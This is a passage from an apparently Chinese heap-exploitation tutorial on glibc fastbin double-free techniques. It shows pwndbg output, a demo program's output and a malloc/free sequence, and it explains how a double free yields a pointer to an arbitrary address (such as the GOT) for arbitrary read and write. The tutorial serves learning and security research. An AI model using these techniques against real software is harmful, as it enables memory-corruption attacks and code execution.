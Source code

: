 ```
pwndbg> fastbins 
fastbins
0x20: 0x603000 —▸ 0x7fffffffdc58 —▸ 0x603010 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

然后做一次 malloc，这里会将栈的地址放到 free list 上；

最后再 malloc 一次，根据上面的输出我们可以看到已经返回到栈上了。

### 小结

> 对于 fastbins，可以通过 double-free 覆盖 fastbins 的结构，来获得一个指向任意地址的指针。如果我们把这个地址指向 got 地址，如果我们可对 chunk 进行写或者读操作，我们就有了**任意地址写**和**任意地址读**。

## fastbin_dup_consolidate

这里展示了 large bin 中 malloc_consolidate 机制 fast 对 double free 的检查。

### 输出：

```
$ ./glibc_2.25/fastbin_dup_consolidate 
Allocated two fastbins: p1=0x602010 p2=0x602060
Now free p1!
Allocated large bin to trigger malloc_consolidate(): p3=0x6020b0
In malloc_consolidate(), p1 is moved to the unsorted bin.
Trigger the double free vulnerability!
We can pass the check in malloc() since p1 is not fast top.
Now p1 is in unsorted bin and fast bin. So we'will get it twice: 0x602010 0x602010
```

### 顺序：

```
p1 = malloc(0x40)
p2 = malloc(0x40)
free(p1)
p3 = malloc(0x400)
free(p1)
malloc(40)
malloc(40)
```

### 解释：

首先申请两个 fastbin p1、p2：
